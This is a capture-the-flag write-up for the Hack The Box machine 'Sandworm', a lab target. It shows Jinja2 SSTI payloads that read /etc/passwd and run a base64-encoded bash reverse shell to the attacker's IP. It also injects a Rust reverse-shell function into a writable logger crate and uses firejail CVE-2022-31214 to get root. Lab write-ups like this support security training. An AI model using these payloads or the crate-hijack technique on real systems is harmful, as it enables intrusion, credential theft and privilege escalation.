









# Sandworm HTB

## Overview
---

> Sandworm is a medium linux box featuring a website with functionality for PGP operations, one of which is vulnerable to SSTI and leads to a restricted shell. Within the firejail environment, I discovered user credentials allowing me to pivot to a SSH shell. Next, I hijacked a cargo crate for command execution to get an unrestricted shell as the previous user. Finally, I exploit a vulnerable version of firejail to root privileges.

---
## Enumeration
---

### Open Ports

I discovered three open ports using nmap:
- Port 22 is running OpenSSH.
- Port 80 hosts a Nginx web server.
- Port 443 is hosting an HTTPS website.

```bash
# nmap -p22,80,443 -sV -sC -T4 -Pn -oA ssa.htb ssa.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 10:43 EDT
Nmap scan report for ssa.htb (10.129.77.232)
Host is up (0.061s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
|_http-title: Secret Spy Agency | Secret Security Service
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### port 80 - HTTP

When I send an HTTP request to port 80, it redirects to the HTTPS site at `https://ssa.htb`. Adding the new domain to `/etc/hosts`.

```bash
> http -ph 10.129.77.232
HTTP/1.1 301 Moved Permanently
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Fri, 23 Jun 2023 14:29:17 GMT
Location: https://ssa.htb/
Server: nginx/1.18.0 (Ubuntu)
```

### port 443 - HTTPS

The response headers from `ssa.htb` did not reveal any significant information.

```bash
> https --verify no -ph ssa.htb
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=utf-8
Date: Fri, 23 Jun 2023 14:44:01 GMT
Server: nginx/1.18.0 (Ubuntu)
Transfer-Encoding: chunked
```

The `ssa.htb` website seems to be associated with a SIGINT organization named Secret Spy Agency.



According to the website's footer, it is powered by Flask, indicating a Python-based backend.


### Directory Enumeration

While fuzzing the website using `ffuf`, found a couple interesting endpoints.

```bash
> ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://ssa.htb/FUZZ -o ffuf_ssa.md -of md -t 100

about                   [Status: 200, Size: 5584, Words: 1147, Lines: 77, Duration: 228ms]
admin                   [Status: 302, Size: 227, Words: 18, Lines: 6, Duration: 222ms]
contact                 [Status: 200, Size: 3543, Words: 772, Lines: 69, Duration: 245ms]
guide                   [Status: 200, Size: 9043, Words: 1771, Lines: 155, Duration: 259ms]
login                   [Status: 200, Size: 4392, Words: 1374, Lines: 83, Duration: 256ms]
logout                  [Status: 302, Size: 229, Words: 18, Lines: 6, Duration: 253ms]
pgp                     [Status: 200, Size: 3187, Words: 9, Lines: 54, Duration: 244ms]
process                 [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 229ms]
view                    [Status: 302, Size: 225, Words: 18, Lines: 6, Duration: 238ms]
```

- `/about` and `/contact` are generic pages without much info.
	- The contact page does mention that they will accept PGP encrypted emails
- `/login` leads a login page with a generic error message
- `/admin` and `/view` redirect to `/login`
- `/pgp` has a public key
- `/process` doesn't accept a GET request
- `/guide` seems to be a guide for PGP

**Analyzing `/process` endpoint**

The process endpoint accepts POST requests, but likely needs a parameter. After, a bit of enumeration found https://ssa.htb/static/scripts.js which uses this endpoint for PGP processing.

```bash
> https --verify no -ph ssa.htb/process
HTTP/1.1 405 METHOD NOT ALLOWED
Allow: POST, OPTIONS
Connection: keep-alive
Content-Length: 153
Content-Type: text/html; charset=utf-8
Date: Fri, 23 Jun 2023 14:48:05 GMT
Server: nginx/1.18.0 (Ubuntu)

> https --verify no -ph OPTIONS ssa.htb/process
HTTP/1.1 200 OK
Allow: POST, OPTIONS
Connection: keep-alive
Content-Length: 0
Content-Type: text/html; charset=utf-8
Date: Fri, 23 Jun 2023 14:48:22 GMT
Server: nginx/1.18.0 (Ubuntu)

> https --verify no -ph POST ssa.htb/process
HTTP/1.1 400 BAD REQUEST
Connection: keep-alive
Content-Length: 167
Content-Type: text/html; charset=utf-8
Date: Fri, 23 Jun 2023 14:48:30 GMT
Server: nginx/1.18.0 (Ubuntu)
```

The webpage at `/guide` has three functionalities:
- Decrypting a message encrypted with SSA's public key.
- Encrypting a message with a provided public key for later decryption with the corresponding private key.
- Verifying the signature of a signed message.
	- SSA has also provided a sample signed message for testing.

Given that I have a signed message and the corresponding public key used for encryption, I can now explore and test all three functionalities.




---
## Initial Foothold
---

The verification of a signed message returns a pop-up message containing the result.


### Exploiting SSTI

While exploring the inputs, I observed that while I cannot modify the public key (since it is fixed), manipulating the signed message allows for certain modifications. Specifically, when adding content before the actual message (in the armor header), the signature is still valid but raises an issue regarding an invalid armor header. However, adding data in any other location results in errors about incorrect formatting.



The contents of the armor header are being reflected as it is in the verification result. This can lead to a lot of vulnerabilities.



I tested for Server-Side Template Injection (SSTI) since this is a Python-based application. I used the `{{7*'7'}}` payload to check if the templating engine being used is Jinja or Twig (most common python templating engines).
The resulting pop-up now displays seven 7's, confirming the presence of SSTI.



To extract configuration variables, I employed the payload `{{config.items()}}`. This gives two pieces of information:
1. Secret Key: `91668c1bc67132e3dcfb5b1a3e0c5c21`
2. SQL Database URI with credentials: `atlas:GarlicAndOnionZ42`

Unfortunately, the credentials obtained are not reused for either the login page or SSH access.



Attempting to read files on the system using an SSTI payload, I was able to retrieve the contents of the `/etc/passwd` file, revealing two users with a login shell.
Regrettably, the password from config variables doesn't work for the `silentobserver` user either.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
```

```bash
silentobserver:x:1001:1001::/home/silentobserver:/bin/bash
atlas:x:1000:1000::/home/atlas:/bin/bash
```

### Shell as atlas ( w/ firejail)

I was having issues with typical SSTI RCE payloads, likely due to special characters. As a workaround, I used a base64-encoded string, decoded it, and executed the payload.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi85MDA1IDA+JjEK | base64 -d  | bash" ').read() }}
```

This payload resulted in an unconventional shell. The usual methods for shell upgrading failed, followed by a `lesspipe` error.

```bash
> nc -nlvp 9005
listening on [any] 9005 ...
connect to [10.10.14.16] from (UNKNOWN) [10.129.77.232] 42398
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ id
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
```

---
## Privilege Escalation to silentobserver
----

In an attempt to upgrade the shell, I tried to write my SSH key to the `authorized_keys` file in the SSH directory. However, this errored out, stating that its a Read-only file system.

```bash
atlas@sandworm:~/.ssh$ echo 'ssh-rsa AA...' > authorized_keys
bash: authorized_keys: Read-only file system
```

Surprisingly, the absence of the sudo binary on the system, coupled with the read-only file system, indicates that I am within a restricted shell.

```bash
atlas@sandworm:~$ sudo -l
sudo -l
Could not find command-not-found database. Run 'sudo apt update' to populate it.
sudo: command not found
```

Atlas' home directory only contains hidden files, including a `.cargo` and a `.config` directory.

```bash
atlas@sandworm:~$ ls -la
ls -la
total 44
drwxr-xr-x 8 atlas  atlas   4096 Jun  7 13:44 .
drwxr-xr-x 4 nobody nogroup 4096 May  4  2023 ..
lrwxrwxrwx 1 nobody nogroup    9 Nov 22  2022 .bash_history -> /dev/null
-rw-r--r-- 1 atlas  atlas    220 Nov 22  2022 .bash_logout
-rw-r--r-- 1 atlas  atlas   3771 Nov 22  2022 .bashrc
drwxrwxr-x 2 atlas  atlas   4096 Jun  6 08:49 .cache
drwxrwxr-x 3 atlas  atlas   4096 Feb  7  2023 .cargo
drwxrwxr-x 4 atlas  atlas   4096 Jan 15  2023 .config
drwx------ 4 atlas  atlas   4096 Nov 26 20:38 .gnupg
drwxrwxr-x 6 atlas  atlas   4096 Feb  6  2023 .local
-rw-r--r-- 1 atlas  atlas    807 Nov 22  2022 .profile
drwx------ 2 atlas  atlas   4096 Feb  6  2023 .ssh
```

The presence of a `firejail` directory within the `.config` directory further confirms my suspicion of working within a restricted environment.

```bash
atlas@sandworm:~/.config$ ls -la
ls -la
total 12
drwxrwxr-x 4 atlas  atlas   4096 Jan 15 07:48 .
drwxr-xr-x 8 atlas  atlas   4096 Jun  7 13:44 ..
dr-------- 2 nobody nogroup   40 Jun 23 13:50 firejail
drwxrwxr-x 3 nobody atlas   4096 Jan 15 07:48 httpie
```

Further enumerating the `.config` directory I discovered authentication credentials for the `silentobserver` user within an HTTPie session file, `quietLiketheWind22`.

```bash
atlas@sandworm:~/.config/httpie/sessions/localhost_5000$ cat admin.json
cat admin.json
...snip...
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
...snip...
```

With the obtained credentials, I gained access to the `/admin` endpoint. However, it doesn't reveal anything substantial.



It appears the silentobserver's credentials are reused for SSH access.

```bash
> pc silentobserver:quietLiketheWind22@ssa.htb
[16:57:48] Welcome to pwncat 🐈!
[16:57:50] ssa.htb:22: registered new host w/ db
(local) pwncat$
(remote) silentobserver@sandworm:/home/silentobserver$ id
uid=1001(silentobserver) gid=1001(silentobserver) groups=1001(silentobserver)
```

---
## Privilege Escalation to atlas (w/o firejail)
----

Unfortunately, the `silentobserver` user doesn't have any sudo privileges on the box.

```bash
(remote) silentobserver@sandworm:/home/silentobserver$ sudo -l
[sudo] password for silentobserver:
Sorry, user silentobserver may not run sudo on localhost.
```

Using the database credentials obtained through the SSTI config payload, I logged into the database and dumped the user table, revealing the hash for a new user named Odin. Unfortunately, I couldn't crack the hash.

```bash
mysql> show tables;
+---------------+
| Tables_in_SSA |
+---------------+
| users         |
+---------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+----------------+--------------------------------------------------------------------------------------------------------+
| id | username       | password                                                                                               |
+----+----------------+--------------------------------------------------------------------------------------------------------+
|  1 | Odin           | pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f |
|  2 | silentobserver | pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d |
+----+----------------+--------------------------------------------------------------------------------------------------------+
2 rows in set (0.00 sec)
```

While looking for binaries with the SUID bit set, discovered a couple interesting ones in the `/opt/tipnet/target/debug/` directory.

```bash
(remote) silentobserver@sandworm:/home/silentobserver$ find / -perm -u=s -type f 2>/dev/null
/opt/tipnet/target/debug/tipnet
/opt/tipnet/target/debug/deps/tipnet-a859bd054535b3c1
/opt/tipnet/target/debug/deps/tipnet-dabc93f7704f7b48
/usr/local/bin/firejail
...snip...
```

### Analyzing tipnet's source code

The `tipnet` binary is owned by the `atlas` user and with the SUID bit set is interesting. Although I already have a shell as the user `atlas`, leveraging this SUID binary might be handy, especially considering the existing shell session is within a `firejail` environment.

```bash
(remote) silentobserver@sandworm:/home/silentobserver$ ls -la /opt/tipnet/target/debug/tipnet
-rwsrwxr-x 2 atlas atlas 59047248 Jun  6 10:00 /opt/tipnet/target/debug/tipnet
(remote) silentobserver@sandworm:/home/silentobserver$ /opt/tipnet/target/debug/tipnet

             ,,
MMP""MM""YMM db          `7MN.   `7MF'         mm
P'   MM   `7               MMN.    M           MM
     MM    `7MM `7MMpdMAo. M YMb   M  .gP"Ya mmMMmm
     MM      MM   MM   `Wb M  `MN. M ,M'   Yb  MM
     MM      MM   MM    M8 M   `MM.M 8M""""""  MM
     MM      MM   MM   ,AP M     YMM YM.    ,  MM
   .JMML.  .JMML. MMbmmd'.JML.    YM  `Mbmmd'  `Mbmo
                  MM
                .JMML.


Select mode of usage:
a) Upstream
b) Regular (WIP)
c) Emperor (WIP)
d) SQUARE (WIP)
e) Refresh Indeces
```

Traversing back a few directories, I located the source code for the `tipnet` binary at `/opt/tipnet/src`.

```bash
(remote) silentobserver@sandworm:/opt/tipnet$ ls -la
total 124
drwxr-xr-x 5 root  atlas  4096 Jun  6 11:49 .
drwxr-xr-x 4 root  root   4096 Nov 26 21:14 ..
-rw-rw-r-- 1 atlas atlas 41754 Nov 26 21:14 access.log
-rw-r--r-- 1 root  atlas 46161 May  4  2023 Cargo.lock
-rw-r--r-- 1 root  atlas   288 May  4  2023 Cargo.toml
drwxr-xr-- 6 root  atlas  4096 Jun  6 11:49 .git
-rwxr-xr-- 1 root  atlas     8 Feb  8  2023 .gitignore
drwxr-xr-x 2 root  atlas  4096 Jun  6 11:49 src
drwxr-xr-x 3 root  atlas  4096 Jun  6 11:49 target

(remote) silentobserver@sandworm:/opt/tipnet$ ls -la
total 16
drwxr-xr-x 2 root atlas 4096 Jun  6 11:49 .
drwxr-xr-x 5 root atlas 4096 Jun  6 11:49 ..
-rwxr-xr-- 1 root atlas 5795 May  4  2023 main.rs
```

While, I couldn't find anything vulnerable or significant, it does use an external library named `logger` from crates, the source for which is at `/opt/crates/logger/src`. Additionally, I cannot edit the rust code either since its owned by root.

The atlas user doesn't have any write permissions. Based on the imports from the source code I know that the `tipnet` binary relies on an external library named `logger` from crates, whose source code is located at `/opt/crates/logger/src`.

```rust
extern crate logger;
use sha2::{Digest, Sha256};
use chrono::prelude::*;
use mysql::*;
```

It's interesting that I have write permissions on the `lib.rs` file in the `/opt/crates/logger/src` directory.

```bash
silentobserver@sandworm:/opt$ ls -la /opt/crates/logger/src
total 12
drwxrwxr-x 2 atlas silentobserver 4096 May  4  2023 .
drwxr-xr-x 5 atlas silentobserver 4096 May  4  2023 ..
-rw-rw-r-- 1 atlas silentobserver  732 May  4  2023 lib.rs
```

Returning to the `tipnet` source code and analyzing its usage of the `logger` library, it seems that the logger code is used at two locations:

1. When the `Upstream` mode is selected, and the justification value is empty, the log function from the `logger` library is executed.
```rust
  76   │     if justification.trim() == "" {
  77   │         println!("[-] No justification provided. TipNet is under 702 authority; queries don't need warrants, bu
       │ t need to be justified. This incident has been logged and will be reported.");
  78   │         logger::log(username, keywords.as_str().trim(), "Attempted to query TipNet without justification.");
  79   │         return;
  80   │     }
```

2. When the `Refresh Indices` mode is selected.
```rust
 194   │     logger::log("ROUTINE", " - ", "Pulling fresh submissions into database.");
```

### Cargo library hijack

In order to exploit this, I modified logger's source code. Specifically, I added a function to spawn a reverse shell whenever the log function is called.

```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;

use std::net::TcpStream;
use std::os::unix::io::{AsRawFd, FromRawFd};
use std::process::{Command, Stdio};

fn gimme_rev_shell() {
    let s = TcpStream::connect("10.10.14.16:9005").unwrap();
    let fd = s.as_raw_fd();
    Command::new("/bin/sh")
        .arg("-i")
        .stdin(unsafe { Stdio::from_raw_fd(fd) })
        .stdout(unsafe { Stdio::from_raw_fd(fd) })
        .stderr(unsafe { Stdio::from_raw_fd(fd) })
        .spawn()
        .unwrap()
        .wait()
        .unwrap();
}

pub fn log(user: &str, query: &str, justification: &str) {

    gimme_rev_shell();

    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
```

In order to use this modified code from the `tipnet` binary I need to build the newly modified logger code.

```bash
(remote) silentobserver@sandworm:/opt/crates/logger/src$ cargo build
   Compiling autocfg v1.1.0
   Compiling libc v0.2.142
   Compiling num-traits v0.2.15
   Compiling num-integer v0.1.45
   Compiling time v0.1.45
   Compiling iana-time-zone v0.1.56
   Compiling chrono v0.4.24
   Compiling logger v0.1.0 (/opt/crates/logger)
    Finished dev [unoptimized + debuginfo] target(s) in 7.79s
```

### Shell as atlas

To trigger the reverse shell function, I simply execute the `tipnet` binary and choose the `Refresh Indices` mode. This will call the log function from logger and in turn the reverse shell code.

```bash
(remote) silentobserver@sandworm:/opt/crates/logger/src$ /opt/tipnet/target/debug/tipnet
...snip...
...snip...
Select mode of usage:
a) Upstream
b) Regular (WIP)
c) Emperor (WIP)
d) SQUARE (WIP)
e) Refresh Indeces
e

[!] Refreshing indeces!
[+] Pull complete.
```

I immediately get a shell as the user atlas. Fortunately, this shell doesn't have the constraints of a `firejail` environment.

```bash
> pc -lp 9005
[17:39:09] Welcome to pwncat 🐈!
[17:42:11] received connection from 10.129.77.232:48300
[17:42:12] 0.0.0.0:9005: upgrading from /usr/bin/dash to /usr/bin/bash
[17:42:13] 10.129.77.232:48300: registered new host w/ db
(local) pwncat$
(remote) atlas@sandworm:/opt/tipnet$ id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)
(remote) atlas@sandworm:/opt/tipnet$

```


---
## Privilege Escalation to root
----

The user `atlas` is a member of the `jailer` group, which has access to the `firejail` binary. Interestingly, the `firejail` binary is owned by the root user and has the SUID bit set.

```bash
(remote) atlas@sandworm:/home/atlas$ find / -group jailer 2>/dev/null
/usr/local/bin/firejail
(remote) atlas@sandworm:/home/atlas$ ls -la /usr/local/bin/firejail
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
(remote) atlas@sandworm:/home/atlas$ firejail --version
firejail version 0.9.68
...snip...
```

### Firejail Exploit

Looking for potential exploits for the SUID bit on `firejail`, I came across a security advisory for [CVE-2022-31214](https://github.com/advisories/GHSA-m2xv-wgqg-4gxh), relating to firejail version 0.9.68.

> This CVE report describes a local root exploit vulnerability in Firejail version 0.9.68 and likely various older versions. The vulnerability allows an unprivileged user to fake a legitimate Firejail process and gain root privileges. By creating a custom user and mount namespace, an attacker can manipulate the environment to make /run/firejail writeable and create a symlink that points to a file meeting specific requirements. This allows the attacker to trick Firejail into joining the manipulated environment, ultimately granting them root privileges.

Openwall also [published a PoC](https://www.openwall.com/lists/oss-security/2022/06/08/10/1) for this exploit. To exploit this, I will need two sessions as atlas, one to execute the exploit, creating a fake firejail process by creating a symklink at `/run/firejail/mnt/join` and another to _join_ to the said process which runs with euid 0.
By default firejail set the `NO_NEW_PRIVS` flag for sandboxed process, but in this situation the firejail env is faked so it is not set. Additionally, firejail's join trusts the target process, so it also has the `NO_NEW_PRIVS` flag unset.

```bash
(remote) atlas@sandworm:/dev/shm$ ./firejail_exploit.py
You can now run 'firejail --join=22960' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
```

As soon as I join the fake firejail process created by the exploit in a new shell session, it spawns a child process with a new namespace where I can switch to the root user.

```bash
(remote) atlas@sandworm:/opt/tipnet$ firejail --join=22960
changing root to /proc/22960/root
Warning: cleaning all supplementary groups
Child process initialized in 8.31 ms
atlas@sandworm:/opt/tipnet$ sudo su -
atlas is not in the sudoers file.  This incident will be reported.
atlas@sandworm:/opt/tipnet$ su -
root@sandworm:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sandworm:~# cd /root
root@sandworm:~# ls -la root.txt
-rw-r----- 1 root root 33 Jun 23 13:51 root.txt
root@sandworm:~#
```

**Pwned!!**

<!--  -->


---

# Related Links

- [Server Side Template Injection - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/#jinja2)
- [oss-security - firejail: local root exploit reachable via --join logic (CVE-2022-31214)](https://www.openwall.com/lists/oss-security/2022/06/08/10)
- [A Privilege Context Switching issue was discovered in... · CVE-2022-31214 · GitHub Advisory Database](https://github.com/advisories/GHSA-m2xv-wgqg-4gxh)
- https://www.openwall.com/lists/oss-security/2022/06/08/10/1
